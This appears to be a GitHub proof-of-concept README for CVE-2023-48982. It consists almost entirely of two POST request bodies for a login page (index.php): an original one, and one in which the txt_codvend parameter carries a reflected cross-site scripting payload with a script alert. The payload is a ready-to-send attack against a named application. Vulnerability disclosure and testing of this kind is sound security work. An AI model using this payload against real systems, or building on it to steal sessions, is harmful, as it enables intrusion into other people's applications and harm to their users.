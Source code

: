 # CVE-2023-48982
POC CVE-2023-48982

## Request Post original for login index.php
```
sessao=f2928a10-95cf-4a6d-9e15-cb75721244fe&txt_tipo_acesso=0&aplEmp=ZZZ&txt_esqueci_senha=N&txt_conceitoNovoSenha=S&txt_codemp=01&txt_aux_codemp=&txt_tipo_login=1&txt_cpf_cnpj=&txt_apelido_TB=&txt_codusr=1&txt_senha=1&txt_codvend=999999&txt_cpf_cnpj_vend=&txt_senha_1=&txt_codemp_vend=00&txt_esqueci_cpfcnpj=&txt_esqueci_email=&txt_end_prgs=
```

## Resquest Post with payload for index.php

PARAMETER txt_codvend
```
sessao=f2928a10-95cf-4a6d-9e15-cb75721244fe&txt_tipo_acesso=0&aplEmp=ZZZ&txt_esqueci_senha=N&txt_conceitoNovoSenha=S&txt_codemp=01&txt_aux_codemp=&txt_tipo_login=1&txt_cpf_cnpj=&txt_apelido_TB=&txt_codusr=1&txt_senha=1&txt_codvend=999999'"()%26%25<zzz><script>alert('tristao')</script>&txt_cpf_cnpj_vend=&txt_senha_1=&txt_codemp_vend=00&txt_esqueci_cpfcnpj=&txt_esqueci_email=&txt_end_prgs=
```

![CVE-2023-48981](https://github.com/tristao-marinho/CVE-2023-48982/blob/main/Pasted%20image%2020240101095358.png?raw=true)


